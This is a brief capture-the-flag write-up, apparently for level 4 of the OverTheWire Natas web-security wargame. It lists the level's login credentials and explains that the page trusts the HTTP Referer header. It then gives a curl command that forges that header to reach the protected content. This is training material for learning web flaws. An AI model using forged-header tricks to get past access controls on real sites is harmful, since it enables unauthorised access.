 # Username
natas4
# Password
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
# Web vulnerability
HTTP Referer header used as security mechanism
# Method of solve
Use curl to access the page to supply customer HTTP Referer header
```
curl -vv -H 'Referer: http://natas5.natas.labs.overthewire.org/' -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ  http://natas4.natas.labs.overthewire.org/
```
